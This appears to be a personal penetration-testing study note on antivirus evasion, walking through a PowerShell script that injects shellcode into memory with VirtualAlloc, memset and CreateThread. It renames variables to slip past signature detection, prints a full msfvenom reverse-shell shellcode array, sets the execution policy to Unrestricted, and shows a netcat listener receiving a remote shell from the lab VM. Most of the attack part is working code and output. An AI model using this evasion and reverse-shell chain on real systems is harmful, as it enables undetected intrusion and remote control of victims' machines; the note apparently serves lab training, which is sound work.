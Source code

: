 
# AV Evasion via Thread Injection
You can use a [powershell](../../computers/windows/powershell.md) script to interact with the [Windows](../../computers/windows/README.md) API and implement an [In-Memory Injection](bypassing-antivirus.md#In-Memory%20Evasion)script. The benefit of using a script over a [PE](../../computers/windows/PE.md) is that it's *more difficult* for AV systems to detect a malicious script, since it's execution is *from within an interpreter* (the script itself is not executable). There are some AV products which handle malicious script detection, but not many.
## PowerShell Memory Injection
The following script carries out a *well known* version of memory injection via powershell:
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28;
...

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
### Importing Functions & Creating a Thread
The script starts by importing `VirtualAlloc` (allocates memory) and `CreateThread` (creates execution threads), which are both Windows API functions. Specifically, they're being imported from the `kernel32.dll` DLL. Next, the script imports `memset` (writes arbitrary data to allocated memory) from the `msvcrt.dll` DLL. 

So, it's effectively allocating memory and then executing a new thread within the *currently running process* (and not in a remote one). 
### Allocating Memory for the Payload
Next, the script defines `sc` which is where you can *place your shell code* payload. Then, it uses `VirtualAlloc` to allocate memory for the payload. Once the appropriate length/ bytes of memory are allocated, it uses `memset` in a for loop to write our payload to the newly-allocated memory.
### Executing the Payload
Finally, it uses the `CreateThread` API to *create a new thread which will execute our payload*.
## Detection
If we were to upload this script to [Virus-Total](../../cybersecurity/TTPs/recon/tools/reverse-engineering/Virus-Total.md) as is, we would probably see the following:
![](../oscp-pics/thread-injection-1.png)28 of the 59 AV products flagged the script as malicious. But with scripts, AV vendors can only really rely on *static string signatures* related to portions of the code (like variable or function names). If we change some of the recognizable names in our script, then we can make our script less detectable.
### Changing Variable & Function Names
```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$var2 = Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];   
[Byte[]] $var1 = 0xfc,0xe8,0x8f,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xd2,0x64,0x8b,0x52,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28
...

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};
$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
We've changed `winFunc` to `var2` and we've also changed its `Name` property from the `Win32` to `iWin32`. Additionally, we've renames `sc` (our shell code) to `var1`. 
### Testing
Instead of uploading this to Virus Total again (since it will automatically be sent as a sample to all of the participating AV vendors), we can check to see if our shell script is less detectable by running it in a [VM](../../computers/containers-vms/virtual-machines.md) with one of the AV vendor products running (let's say Avira). Once the script is loaded on the VM, we can scan it with Avira (which was one of the vendors which flagged the original script in Virus Total), and see what we get.

With Avira open, we can just click Security --> Quick Scan to scan the whole VM device:
![](../oscp-pics/thread-injection-2.png)If changing the variable and function names worked, this is what we should see.
## Executing our Thread Injection
Once we've decided that our script will not be detected (in the target's environment and based on their AV implementation), we can exploit it. 
### Payload
First, we need a payload for the shell code (`sc`). We can get one from [MSFvenom](../../cybersecurity/TTPs/exploitation/tools/metasploit.md#MSFvenom):
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of powershell file: 1593 bytes
[Byte[]] $sc = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x0,0x0,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x7,0xff,0xd5,0xb8,0x90,0x1,0x0,0x0,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x5,0x68,0xc0,0xa8,0x32,0x1,0x68,0x2,0x0,0x1,0xbb,0x89,0xe6,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0xc,0xff,0x4e,0x8,0x75,0xec,0x68,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x68,0x63,0x6d,0x64,0x0,0x89,0xe3,0x57,0x57,0x57,0x31,0xf6,0x6a,0x12,0x59,0x56,0xe2,0xfd,0x66,0xc7,0x44,0x24,0x3c,0x1,0x1,0x8d,0x44,0x24,0x10,0xc6,0x0,0x44,0x54,0x50,0x56,0x56,0x56,0x46,0x56,0x4e,0x56,0x56,0x53,0x56,0x68,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x89,0xe0,0x4e,0x56,0x46,0xff,0x30,0x68,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5
```
- `-p`: the payload to use (this one is from [metasploit](../../cybersecurity/TTPs/exploitation/tools/metasploit.md) itself), can also list the parameters after it (`LHOST` and `RHOST` in this case)
- `-f`: the format for the output
- `-v`: a custom variable name (`sc` for our shell code)
### Execution
Let's run our exploit on our Windows VM (with the AV system we've been testing it against). When we execute it in powershell, we'll probagbly see the following output:
```powershell
PS C:\Users\offsec\Desktop> .\bypass.ps1
.\bypass.ps1 : File C:\Users\offsec\Desktop\bypass.ps1 cannot be loaded because running scripts is disabled on this
system. For more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1
+ .\bypass.ps1
+ ~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess
```
This is because the system's *Execution Policy* prevented our script from running. Execution Policies (in Windows) are set on a *per user* basis. Execution Policies are sometimes dictated by one or more [Active Directory](../../computers/windows/active-directory/active-directory.md#Active%20Directory) Group Policies (GPOs). But if they aren't then we can try to change the policy *for our current user*. 
#### Changing the User's Execution Policy
First, we need to use `Get-ExecutionPolicy` to see what the current policy is:
```powershell
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Undefined
```
Right now, it's listed as `Undefined`. Next, we can try to set our new policy by useing the `Set-ExecutionPolicy` cmdlet. We're going to give it the `ExecutionPolicy` flag (to set the new policy as `Unrestricted`) and the `Scope` flag (to limit the change to the current user). 
```powershell
PS C:\Users\offsec\Desktop> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help Module at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A

PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser
Unrestricted
```
### Listener
Now that we can execute our script, we need to start our [netcat](../../cybersecurity/TTPs/exploitation/tools/netcat.md) listener to listen for our reverse shell:
```bash
nc -lvnp 443
listening on [any] 443 ...
```
Now we can execute our script from the windows VM and see what we get on our netcat listener:
```bash
nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.50.1] from (UNKNOWN) [192.168.50.62] 64613
Microsoft Windows [Version 10.0.22000.675]
(c) Microsoft Corporation. All rights reserved.

C:\Users\offsec>whoami
whoami
client01\offsec

C:\Users\offsec>hostname
hostname
client01
```
If we get the reverse shell, that means *we successfully evaded the AV system on the VM*. 

> [!Resources]
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
